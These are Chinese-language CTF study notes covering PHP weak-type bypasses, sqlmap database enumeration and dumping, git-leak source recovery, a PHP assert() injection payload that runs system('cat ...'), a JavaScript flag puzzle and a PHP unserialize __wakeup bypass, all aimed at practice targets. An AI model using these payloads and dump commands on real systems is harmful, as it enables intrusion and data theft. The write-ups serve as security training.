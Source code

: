 # 6月

[TOC]



## php弱类型传参

```php
<?php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
if($a==0 and $a){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
?> 
```

**强类型的语言遇到函数引数类型和实际调用类型不匹配的情况经常会直接出错或者编译失败；而弱类型的语言常常会实行隐式转换，或者产生难以意料的结果。**

`if($a==0 and $a)`即要为零又要为真，可以使用a=0e0来绕过

`if(is_numeric($b))`既要要求不为数字，又要大于1234，可以使用b=1235a来绕过

* 常用php弱类型
  * php中有两种比较的符号 `==`与`===`

```
=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较`
`== 在进行比较的时候，会先将字符串类型转化成相同，再比较
```

**如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行**

## SQLmap使用

- SQLMap扫描注入漏洞

  对于get方法：sqlmap -u url --dbs

  对于post方法：sqlmap -r 1.txt --dbs

- 靶场演示 https://www.mozhe.cn/bug/detail/UDNpU0gwcUhXTUFvQm9HRVdOTmNTdz09bW96aGUmozhe 参考：https://www.jianshu.com/p/49e4df2e260a

  - 使用sqlmap一把梭 `sqlmap -u url --dbs` 爆出数据库
  - `sqlmap -u url -D dbname --tables`爆出表名
  - `sqlmap -u url -D dbname -T tablename --columns`爆出表中字段
  - `sqlmap -u url -D dbname -T tablename -C name --dump`（`sqlmap -u url -D dbname --dump`）爆字段值
  - MD5解密 也可利用sqlmap自带爆破工具进行解密

## Githack使用——git泄露的利用（攻防世界mfw）

使用githack直接下载源码，然后分析，构造pyload。

`githack.py http://111.198.29.45:40450/.git/`

查看源文件，

```
assert() 检查一个断言是否为 FALSE

strpos() 函数查找字符串在另一字符串中第一次出现的位置。

file_exists() 函数检查文件或目录是否存在。
```

```php
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

```html
div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li <?php if ($page == "home") { ?>class="active"<?php } ?>><a href="?page=home">Home</a></li>
		            	<li <?php if ($page == "about") { ?>class="active"<?php } ?>><a href="?page=about">About</a></li>
		            	<li <?php if ($page == "contact") { ?>class="active"<?php } ?>><a href="?page=contact">Contact</a></li>
						<!--<li <?php if ($page == "flag") { ?>class="active"<?php } ?>><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
```

构造pyload：

`?/page=

about.php', '123') === false and system('cat templates/flag.php') and strpos('templates/flag`

## 攻防——NaNNaNNaNNaN-Batman

1. 下载文件

2. 查看文件内容并修改文件后缀

3. 打开，修改eval为alert让它弹出函数体

   ```js
   function $(){
   var e=document.getElementById("c").value;
   if(e.length==16)
   	if(e.match(/^be0f23/)!=null)
   		if(e.match(/233ac/)!=null)
   			if(e.match(/e98aa$/)!=null)
   				if(e.match(/c7be9/)!=null){
   					var t=["fl","s_a","i","e}"];
   					var n=["a","_h0l","n"];
   					var r=["g{","e","_0"];
   					var i=["it'","_","n"];
   					var s=[t,n,r,i];
   					for(var o=0;o<13;++o){
   						document.write(s[o%4][0]);s[o%4].splice(0,1)
   						}
   					}
   				}
   				document.write('<input id="c"><button onclick=$()>Ok</button>');
   				delete
   ```

   

4. 然后整理得到它的执行逻辑，并根据逻辑，拼接字符串be0f233ac7be98aa，使之符合长度限制并且含有所要求内容,输入然后ok。

5. 也可以将脚本拿出来执行一下

   ```js
   var t=["fl","s_a","i","e}"];
   var n=["a","_h0l","n"];
   var r=["g{","e","_0"];
   var i=["it'","_","n"];
   var s=[t,n,r,i];
   for(var o=0;o<13;++o){
          console.info((s[o%4][0]));
          console.info(s[o%4].splice(0,1));
   	}
   
   ```

   ![1561557779370](C:\Users\王渤\AppData\Roaming\Typora\typora-user-images\1561557779370.png)

***

## 攻防——unserialize3 php反序列化

参考：https://blog.csdn.net/silence1_/article/details/89716976

* 魔术方法
  PHP中以两个下划线开头的方法，__construct(), __destruct (), __call(), __callStatic(),__get(), __set(), __isset(), __unset (), __sleep(), __wakeup(), __toString(), __set_state,() __clone() __autoload()等，被称为"魔术方法"（Magic methods）。这些方法在一定条件下有特殊的功能

  * 与序列化和反序列化的相关魔术方法主要是

    ```php
    __construct()	//当一个对象创建时被调用
    __destruct() 	//对象被销毁时触发
    __wakeup() 	//使用unserialize时触发
    __sleep() 	//使用serialize时触发
    __toString() 	//把类当做字符串时触发
    __get() 	//用于从不可访问的属性读取数据
    __set() 	//用于将数据写入不可访问的属性
    ```

* 序列化（serialization）在计算机科学的数据处理中，是指将数据结构或对象状态转换成可取用格式（例如存成文件，存于缓冲，或经由网络中发送），以留待后续在相同或另一台计算机环境中，能恢复原先状态的过程。

* php的序列化和反序列化由serialize()和unserialize()这两个函数来完成serialize()完成序列化的操作，将传入的值转换为序列化后的字符串而unserialize()完成反序列化的操作，将字符串转换成原来的变量：

  ```
  O:<length>:"<class name>":<n>:{<field name 1><field value 1>...<field name n><field value n>} 
  ```

  ![å¨è¿éæå¥å¾çæè¿°](https://img-blog.csdnimg.cn/20190430232925804.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3NpbGVuY2UxXw==,size_16,color_FFFFFF,t_70)

当序列化字符串当中属性个数值大于实际的属性个数时,就会导致反序列化异常,从而跳过__wakeup函数

* 解题步骤：
  * 把一个对象序列化之后修改，然后传参给code
